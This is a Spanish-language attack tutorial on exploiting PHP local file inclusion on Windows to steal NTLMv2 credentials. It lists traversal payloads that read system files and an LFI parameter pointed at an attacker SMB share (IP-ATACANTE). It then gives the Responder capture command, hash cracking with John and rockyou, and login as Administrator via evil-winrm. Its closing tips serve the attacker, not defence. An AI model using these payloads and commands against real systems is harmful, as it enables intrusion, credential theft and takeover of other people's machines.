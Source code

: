 🕵️ Explotación LFI + SMB y Captura de Hashes NTLMv2
¡Aquí te explico cómo detectar y explotar una vulnerabilidad LFI para robar hashes NTLMv2 de un sistema Windows!

1. 🔍 Detectar LFI (Local File Inclusion)
Primero, busca parámetros en una web que incluyan archivos de forma dinámica, como este:

http://target.com/index.php?page=home.html

Ahora, intenta incluir archivos locales usando ../ (directory traversal):

En Linux: http://target.com/index.php?page=../../../../etc/passwd 🐧

En Windows: http://target.com/index.php?page=../../../../windows/system32/drivers/etc/hosts 💻

Si ves el contenido del archivo, ¡la máquina es vulnerable! Confirma con otros archivos como config.php o C:\Windows\win.ini.

2. 💡 Entendiendo include() en PHP
La función include() ejecuta el archivo que le pasas. Si el parámetro vulnerable no tiene filtros, puedes controlar qué archivo se incluye. Esto te permite leer archivos o, en ataques más avanzados, conseguir RCE (Remote Code Execution).

3. 🎣 LFI → Captura de Hashes NTLMv2 vía SMB
En sistemas Windows, puedes forzar al servidor a autenticarse hacia tu máquina atacante usando una ruta SMB como esta:

\\IP-ATACANTE\share\archivo

Cuando Windows intente acceder a esa ruta, enviará un NetNTLMv2 hash con sus credenciales. Un servidor SMB malicioso puede capturarlo.

4. 🛠️ Preparar la Máquina Atacante
Configura Responder en tu máquina atacante para capturar los hashes.

Abre una terminal y ejecuta: sudo responder -I <INTERFAZ>

<INTERFAZ> es la interfaz que conecta con la víctima (usa ifconfig para revisarla).

Esto levantará un servidor SMB falso. Ahora, solo tienes que modificar el parámetro LFI para que apunte a tu servidor:

http://target.com/index.php?page=\\IP-ATACANTE\share\archivo

Nota: A veces necesitarás usar doble barra, así: http://target.com/index.php?page=//IP-ATACANTE/share/archivo

5. 🎯 Resultado Esperado
La víctima intentará acceder a tu recurso SMB, y Responder capturará el hash automáticamente, mostrando algo así en pantalla:

Administrator::VICTIMA:1122334455667788:HASH_NETNTLMv2

6. 🔓 Guardar y Crackear el Hash
Copia el hash capturado a un archivo de texto (por ejemplo, hashes.txt) y usa una herramienta como John The Ripper para crackearlo.

john -w=/usr/share/wordlists/rockyou.txt hashes.txt

¡John probará contraseñas de la wordlist hasta encontrar la correcta! También puedes usar Hashcat si prefieres usar la GPU.

7. 🔑 Uso de las Credenciales Obtenidas
Una vez crackeado el hash, obtendrás la contraseña de un usuario, como Administrator. Puedes usarla para acceder a servicios remotos:

WinRM: evil-winrm -i <IP> -u <usuario> -p <password>

También puedes probar SMB, RDP u otros servicios si están expuestos.

8. 🛡️ Recomendaciones y Buenas Prácticas
Este método funciona solo en Windows cuando LFI permite rutas SMB.

Documenta todo: la URL vulnerable, los parámetros que probaste, el hash que capturaste y las herramientas que usaste.

Nunca dependas de nombres de archivo específicos.

Mantén tu máquina atacante siempre lista.
